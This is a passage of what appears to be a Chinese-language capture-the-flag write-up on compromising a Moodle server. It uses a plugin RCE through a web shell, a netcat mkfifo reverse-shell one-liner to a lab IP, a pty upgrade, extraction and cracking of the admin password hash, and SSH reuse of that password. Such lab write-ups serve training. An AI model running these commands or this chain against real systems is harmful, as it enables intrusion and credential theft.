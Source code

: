 https://github.com/HoangKien1020/Moodle_RCE

上传

![image-20210429170338792](https://raw.githubusercontent.com/heriachen/cloudimg/main/img2/image-20210429170338792.png)

成功

![image-20210429170357699](https://raw.githubusercontent.com/heriachen/cloudimg/main/img2/image-20210429170357699.png)

访问路径moodle/blocks/rce/lang/en/block_rce.php?cmd=command

RCE成功

![image-20210429171126165](https://raw.githubusercontent.com/heriachen/cloudimg/main/img2/image-20210429171126165.png)

反弹即可

```
cmd=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>%261|nc 10.10.14.135 4444 >/tmp/f
```

![image-20210429171650067](https://raw.githubusercontent.com/heriachen/cloudimg/main/img2/image-20210429171650067.png)

执行如下两句

```
export PATH=$PATH:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

之后在下面的路径中找到数据库信息

![image-20210429172917074](https://raw.githubusercontent.com/heriachen/cloudimg/main/img2/image-20210429172917074.png)

之后登陆数据库，找到库和表，查找用户名密码字段

![image-20210429173449813](https://raw.githubusercontent.com/heriachen/cloudimg/main/img2/image-20210429173449813.png)

![image-20210429173710260](https://raw.githubusercontent.com/heriachen/cloudimg/main/img2/image-20210429173710260.png)



破解admin的hash，得到密码!QAZ2wsx

![image-20210429174600402](https://raw.githubusercontent.com/heriachen/cloudimg/main/img2/image-20210429174600402.png)

根据前面的信息，Jamie是Information Technology Lecturer,在登陆用户中也找到jamie

![image-20210429174412945](https://raw.githubusercontent.com/heriachen/cloudimg/main/img2/image-20210429174412945.png)

使用上面的密码ssh登陆

![image-20210429174714109](https://raw.githubusercontent.com/heriachen/cloudimg/main/img2/image-20210429174714109.png)

发现sudo权限

![image-20210429174741328](https://raw.githubusercontent.com/heriachen/cloudimg/main/img2/image-20210429174741328.png)

